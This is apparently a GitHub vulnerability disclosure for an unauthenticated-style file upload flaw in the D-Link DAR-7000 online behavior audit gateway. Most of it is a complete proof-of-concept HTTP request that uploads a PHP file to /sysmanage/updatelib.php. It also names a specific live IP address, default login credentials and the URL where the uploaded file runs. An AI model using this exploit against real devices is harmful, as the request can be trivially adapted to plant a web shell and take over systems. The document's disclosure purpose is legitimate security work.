 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/sysmanage/updatelib.php

Ip：https://60.22.74.195:8443/

Default account password: test/admin@123

poc:
```
POST /sysmanage/updatelib.php? HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=bdb1aa1392da0420192cff3c34e507d6
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 717
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—

```

<img width="723" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b9041dde-196c-4f52-bc0d-ca23bf0c8991">

https://60.22.74.195:8443/home/phpinfo.php 

<img width="724" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/e4bbeb22-7b5e-4a8f-97ae-63aa2a74d4a3">

